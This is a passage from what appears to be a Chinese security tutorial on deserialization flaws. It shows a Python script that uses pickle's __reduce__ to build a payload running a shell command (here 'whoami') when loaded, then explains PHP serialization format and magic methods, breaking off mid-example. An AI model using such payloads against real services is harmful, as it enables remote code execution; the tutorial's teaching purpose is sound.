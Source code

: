 ![image](https://img-blog.csdnimg.cn/img_convert/f4af7846ab8959a3b5e471493592a77f.png)

利用`pickle`模块和魔术方法`__reduce__`生成执行命令的Payload
```python
#!/usr/bin/python3
import pickle
import os
 
# 定义一个执行命令的类
class exec:
    def __init__(self,cmd):
        self.cmd=cmd
    #  __reduce__()函数返回一个元组时 , 第一个元素是一个可调用对象 , 这个对象会在创建对象时被调用，
    #  第二个元素是可调用对象的参数，pickle.loads会解决import问题，对于未引入的module会自动尝试import
    def __reduce__(self):
        return (os.system,(self.cmd,))
# 实例化对象
res=exec('whoami')
# 生成序列化数据
payload=pickle.dumps(res)
print("Payload:",payload)
```
生成执行`whoami`命令的Payload，如图

![image](https://img-blog.csdnimg.cn/img_convert/78292c5d00e35ff8d1f0410cb02e2c5c.png)

# PHP反序列化漏洞实验
PHP中通常使用`serialize`函数进行序列化，使用`unserialize`函数进行反序列化
### serialize函数输出格式
> NULL被序列化为：N

> Boolean型数据序列化为：b:1，b:0，分别代表True和False

> Integer型数据序列化为：i:数值

> String型数据序列化为：s:长度:"值"

> 对象序列化为：O:类名长度:类名:字段数:字段

输出的数字基本都是代表长度，在构造Payload时需要注意修改长度
## PHP中常用魔术方法
- __construct：当对象被创建时调用
- __destruct：当对象被销毁前调用
- __sleep：执行serialize函数前调用
- __wakeup：执行unserialize函数前调用
- __call：在对象中调用不可访问的方法时调用
- __callStatic：用静态方法调用不可访问方法时调用
- __get：获得类成因变量时调用
- __set：设置类成员变量时调用

使用下面代码创建一个类A并实例化一个对象a，然后输出序列化对象a后的值
```php
<?php
// 定义一个类
class A{
    var $test = "Hello";
    function __construct(){
    print "<h1>ABCD</h1>";
    }
}
 
// 实例化一个对象a
$a=new A();
// 序列化对象a
```